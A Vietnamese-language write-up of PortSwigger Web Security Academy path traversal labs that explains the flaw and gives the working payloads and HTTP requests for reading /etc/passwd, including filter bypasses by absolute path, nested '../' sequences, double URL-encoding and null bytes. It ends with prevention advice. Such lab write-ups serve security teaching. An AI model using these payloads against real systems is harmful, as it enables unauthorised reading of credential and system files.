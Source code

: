```yaml
---
title: "[PortSwigger Lab] - Path Traversal"
description: Solution of Path Traversal on PortSwigger Lab
date: 2025-06-01 11:00:00 +0700
categories: [Cyber ​​Security, Web Pentest]
tags: [portswigger, burpsuite, labs, web, vulnerability, path traversal, directory traversal]   
pin: false
comments: true
image:
    path: https://raw.githubusercontent.com/waibui/blog-assets/refs/heads/main/imgs/posts/2025-06-01-portswigger-lab-path-traversal/path-traversal.png
    alt: Path Traversal
---
```


## Introduction
--- 

**Path traversal** còn được gọi là **Directory traversal**. Các lỗ hổng này cho phép kẻ tấn công đọc các tệp tùy ý trên máy chủ đang chạy một ứng dụng. Điều này có thể bao gồm:
- Application code and data.
- Credentials for back-end systems.
- Sensitive operating system files.

Trong một số trường hợp, kẻ tấn công có thể ghi vào các tệp tùy ý trên máy chủ, cho phép chúng sửa đổi dữ liệu hoặc hành vi ứng dụng và cuối cùng kiểm soát toàn bộ máy chủ.

## Solve Path Traversal Lab
---
- **Relative path:** `../../../etc/passwd`
- **Absolute path:** `/etc/passwd`
- **View images**: Filter settings > Filter bt MINE type > enable `images`
### Lab: File path traversal, simple case
- Mở 1 image bất kỳ
```
https://0af90002046a785a82be974700ff007e.web-security-academy.net/image?filename=8.jpg
```

- Thay đổi đường dẫn của image
```
https://0af90002046a785a82be974700ff007e.web-security-academy.net/image?filename=../../../etc/passwd
```

- Điều này khiến ứng dụng đọc từ đường dẫn tệp sau
```
/var/www/images/../../../etc/passwd
```

- Trình tự `../` có giá trị trong một **file path** và có nghĩa là để tăng một cấp trong cấu trúc thư mục. Ba chuỗi liên tiếp `..`:
    - Lần 1:
    ```
    /var/www/../../etc/passwd
    ```
    - Lần 2:
    ```
    /var/../etc/passwd
    ```
    - Lần 3:
    ```
    /etc/passwd
    ```

- Cuối cùng ứng dụng hiển thị nội dung của file `/etc/passwd`
- `/etc/passwd` là một tập tin hệ thống rất quan trọng trong các hệ điều hành **Unix**và **Linux**. Nó lưu trữ thông tin về user trên hệ thống. Dù tên là `"passwd" (password)`, nhưng mật khẩu thực tế không còn được lưu ở đây nữa mà được lưu trong tệp `/etc/shadow` với quyền truy cập hạn chế hơn.
- Truy cập **HTTP history** để xem nội dung

### File path traversal, traversal sequences blocked with absolute path bypass
- `../` đã bị block, cần bypass thông qua **absolute path**
- Mở 1 file ảnh bất kỳ trong tab mới
```
https://0a35004b0379e87d805eb796009c003b.web-security-academy.net/image?filename=33.jpg
```
- Thay đổi tên ảnh bằng **absolute path**: `/etc/passwd`
```
https://0a35004b0379e87d805eb796009c003b.web-security-academy.net/image?filename=/etc/passwd
```
- Truy cập **HTTP history** để xem nội dung

### File path traversal, traversal sequences stripped non-recursively
#### Analysis
Ở lab này, chương trình sẽ loại bỏ các **traversal sequences**, tức:
```
../../../etc/passwd
```
Sẽ trở thành
```
etc/passwd
```
Chương trình sẽ xóa tất cả `../` ra khỏi chuỗi

#### Exploit
Ý tưởng: vẫn để chương trình loại bỏ `../`, nhưng vẫn giữ được đường dẫn tương đối đến `/etc/passwd`
- Payload 1: ..././..././..././etc/passwd
- Payload 2: ....//....//....//etc/passwd
- Payload 3: ....\/....\/....\/etc/passwd

Sau khi chương trình đã loại bỏ `../` hoặc `..\` thì mọi thứ đểù trở thành `../../../etc/passwd`
> **Windows** sử dụng cả `../` và `..\`
{: .prompt-info}

- Thay đổi đường dẫn hình ảnh sử dụng các payload trên.
- Truy cập **HTTP history** để xem nội dung

### Lab: File path traversal, traversal sequences stripped with superfluous URL-decode
#### Analysis
- Để giải quyết lab này, cần phải **encode url** 2 lần
- Mốt số trường hợp webserver decode 1 lần và kiểm tra `../` có tồn tại không để thực hiện logic khác
- Sau khi decode 1 lần, request được gửi đến **Backend** để xử lý, và **Path traversal** xảy ra
#### Exploit
- Gửi request đến **Repeater**, thay đổi đường dẫn
```http
GET /image?filename=../../../etc/passwd HTTP/2
Host: 0a24006d03b4e0b48025dad200d800f9.web-security-academy.net
```

- Bôi đen `../../../`, tại tab **Inspector**, phần **Decoded from** chon ký hiệu `+`
- Ở phần **Decoded from** vửa được tạo, click **select**, chọn **URL encoding**
- Tại đó, nhập lại `../../../`
- Copy nội dung phần **Selected text** và dán vào request
```http
GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/2
Host: 0a24006d03b4e0b48025dad200d800f9.web-security-academy.net
```

### Lab: File path traversal, validation of start of path
- Mở 1 file ảnh tùy ý ở tab khác và gửi nó đến **Repeater**
- Ta thấy nó chỉ định bắt đầu từ `/var/www/image/filepath`
```http
GET /image?filename=/var/www/images/38.jpg HTTP/2
Host: 0a3c0092041de0d6800dc688002700bb.web-security-academy.net
```
- Thêm **traversal sequence** để chuyển hướng đến **root** rồi trở về **/etc/passwd**
- Thay đổi request để đọc file `/etc/passwd`
```http
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/2
Host: 0a3c0092041de0d6800dc688002700bb.web-security-academy.net
```

### Lab: File path traversal, validation of file extension with null byte bypass
#### Analysis
Trên một số hệ thống cũ hoặc ngôn ngữ xử lý C-style:
Khi chuỗi `../../../etc/passwd%00.png` được truyền vào hàm như `fopen()`:
```c
fopen("../../../etc/passwd\0.png", "r");
```
→ Hệ thống dừng đọc chuỗi tại null byte (\0). Tức là chỉ mở file: `../../../etc/passwd`, phần `.png` sau `%00` không còn ảnh hưởng.
#### Exploit
Tương tự như các lab trên nhưng gửi với request có `null byte (%00)`
```http
GET /image?filename=../../../etc/passwd%00.png HTTP/2
Host: 0a9d00870462f85880c9b2e400c6002c.web-security-academy.net
```

- Một số hệ thống sẽ filter dựa trên `extension`, trường hợp này là `.png`
- Nên sử dụng `null byte` để tách bỏ `extension` ra, đọc file `/etc/passwd`


## Prevent
--- 
- Tránh hoàn toàn việc sử dụng đầu vào từ người dùng trong các API thao tác với hệ thống file.
- Nếu buộc phải dùng đầu vào từ người dùng thì sao?
    - Validate đầu vào
    - Chuẩn hóa và kiểm tra đường dẫn tuyệt đối **(canonical path)**

---
Goodluck! 🍀🍀🍀
